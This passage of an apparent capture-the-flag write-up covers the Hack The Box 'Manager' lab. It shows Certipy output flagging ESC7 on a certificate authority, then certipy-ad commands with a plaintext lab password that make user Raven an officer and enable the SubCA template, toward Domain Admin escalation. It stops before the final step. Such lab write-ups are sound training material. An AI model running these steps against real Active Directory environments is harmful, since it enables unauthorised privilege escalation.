 ```sh
MANAGER.HTB\Authenticated Users
MANAGER.HTB\Raven
ManageCa
: MANAGER.HTB\Administrators
MANAGER.HTB\Domain Admins
MANAGER.HTB\Enterprise Admins
MANAGER.HTB\Raven
ManageCertificates
: MANAGER.HTB\Administrators
MANAGER.HTB\Domain Admins
MANAGER.HTB\Enterprise Admins
[!] Vulnerabilities
ESC7
: 'MANAGER.HTB\\Raven' has dangerous
permissions
Certificate Templates
: [!] Could not find any certificate
templates
```

The report indicates that the user Raven possesses hazardous permissions, particularly having `ManageCA` rights over the Certification Authority. 

This implies that by leveraging the ESC7 scenario, we could potentially elevate our privileges to Domain Admin while operating as user Raven. 

A detailed explaination about the exploitation process for the ESC7 scenario can be found [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7).

## Exploitation

To exploit this, we'll need to first add Raven as an "officer", so that we can manage certificates and issue them manually.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -add-officer raven -debug
```

Now that we are officer, we can issue and manage certificates. The `SubCA` template can be enabled on the CA with the `-enable-template` flag.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -enable-template subca
```

The enabled certificate templates can be listed using the `-list-templates` flag.
```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -list-templates
```

The prerequisites for the attack are now fulfilled. We have Manage Certificates permission,granted through ManageCA , and have ensured that the SubCA template is enabled.

